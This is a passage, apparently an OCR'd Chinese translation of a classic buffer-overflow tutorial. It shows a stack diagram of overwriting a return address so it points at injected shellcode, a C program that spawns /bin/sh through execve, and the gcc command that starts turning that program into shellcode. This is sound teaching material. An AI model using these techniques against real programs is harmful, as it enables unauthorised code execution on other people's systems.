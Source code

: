 们想使其溢出的缓冲区里, 并且覆盖函数的返回地址, 使其指向这个缓冲区. 假定堆栈

的起始地址为0xFF, S代表我们想要执行的代码, 堆栈看起来应该是这样:

内存低&nbsp; &nbsp;&nbsp;&nbsp;DDDDDDDDEEEEEEEEEEEE&nbsp;&nbsp;EEEE&nbsp;&nbsp;FFFF&nbsp;&nbsp;FFFF&nbsp;&nbsp;FFFF&nbsp;&nbsp;FFFF&nbsp; &nbsp;&nbsp;&nbsp;内存高

地址&nbsp; &nbsp;&nbsp; &nbsp; 89ABCDEF0123456789AB&nbsp;&nbsp;CDEF&nbsp;&nbsp;0123&nbsp;&nbsp;4567&nbsp;&nbsp;89AB&nbsp;&nbsp;CDEF&nbsp; &nbsp;&nbsp;&nbsp;地址

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;buffer&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; sfp&nbsp; &nbsp;ret&nbsp; &nbsp;a&nbsp; &nbsp;&nbsp;&nbsp;b&nbsp; &nbsp;&nbsp;&nbsp;c

&lt;------&nbsp; &nbsp;[SSSSSSSSSSSSSSSSSSSS][SSSS][0xD8][0x01][0x02][0x03]

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;^&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; |

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;|____________________________|

堆栈顶部&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 堆栈底部

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 

&nbsp; &nbsp; 派生出一个shell的C语言代码是这样的:

&nbsp;&nbsp;

shellcode.c

-----------------------------------------------------------------------------

#include &lt;stdio.h&gt;

void main() {

&nbsp; &nbsp;char *name[2];

&nbsp; &nbsp;name[0] = "/bin/sh";

&nbsp; &nbsp;name[1] = NULL;

&nbsp; &nbsp;execve(name[0], name, NULL);

}

------------------------------------------------------------------------------

&nbsp; &nbsp; 为了查明这程序变成汇编后是个什么样子, 我们编译它, 然后祭出调试工具gdb. 记住

在编译的时候要使用-static标志, 否则系统调用execve的真实代码就不会包括在汇编中,

取而代之的是对动态C语言库的一个引用, 真正的代码要到程序加载的时候才会联入.

------------------------------------------------------------------------------
  
[aleph1]$ gcc -o shellcode -ggdb -static shellcode.c
  